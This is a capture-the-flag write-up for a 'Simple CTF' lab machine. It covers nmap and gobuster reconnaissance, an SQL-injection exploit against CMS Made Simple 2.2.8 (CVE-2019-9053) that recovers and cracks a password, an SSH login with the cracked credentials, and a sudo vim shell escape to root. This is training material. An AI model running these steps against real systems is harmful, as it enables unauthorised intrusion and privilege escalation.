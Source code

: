 # Simple ctf

## 1 -  How many services are running under port 1000?

Run nmap

```
nmap -sC -sV -oN nmap/inital_setup $IP

21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.128.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Answer: 2 services (ftp, ssh)

Can also see that ftp can be accessed with anonymous mode and there is a robots.txt file 

Potential user: mike
Service running: openemr-5_0_1_3 
FTP: has a file (pub) - could not get the file, it hangs (passive mode)

## 2 - What is running on the higher port?

```
ssh
```

## 3 - What's the CVE you're using against the application? 

after running 

```
nmap --script=vuln $IP

Found:
Slowloris (but not the CVE needed)
####################################
nmap --script=vulners $IP

Found:
CVE for openssh (not the CVE needed)
Bunch of apache CVE's (none is the one needed)
```

Since none is, i ran a gobuster with wordlist 2.3-medium but did not found anything so i ran with common.txt

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP -o gobuster/scan_1

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200) -> apache default page
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301) -> CMS made simple running VERSION: 2.2.8
```
Now i ran gobuster on the /simple folder and found alot of pages

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP/simple -o gobuster/scan_2

/modules (Status: 301)
/uploads (Status: 301)
/doc (Status: 301)
/admin (Status: 301)
/assets (Status: 301)
/lib (Status: 301)
```

Also in the page content says: 

```
If this is your site click here to login.
Redirects to page: /simple/admin/login.php
```

This may be an SQLInjection vuln.... lets search

```
CVE mitre -> search cms 2.2.8 -> CVE-2019-9053 (SQLI)
```

### Answer: CVE-2019-9053

## 4 - To what kind of vulnerability is the application vulnerable?

### Answer: SQLI

## 5 - Whats the password?

Use the exploit...

```
set TIME = 2 (to be safe because of the time attack)
python3 cms.py -u http://$IP/simple --crack -w best110.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 6 - Where can you login with the details obtained?

```
ssh 

ssh mitch@$IP -p 2222
```

## 7 - What's the user flag?

```
pwd /home/mitch/user.txt

G00d j0b, keep up!
```

## 8 - Is there any other user in the home directory? What's its name?

```
sunbath
```

## 9 - What can you leverage to spawn a privileged shell?

```
sudo -l

(root) NOPASSWD: /usr/bin/vim
```

### Answer: vim

## 10 - What's the root flag?

use gtfo bins to check vim

```
sudo vim
:shell=/bin/sh
:shell

whoami
# root

cd /root
cat root.txt
```

### Answer: W3ll d0n3. You made it!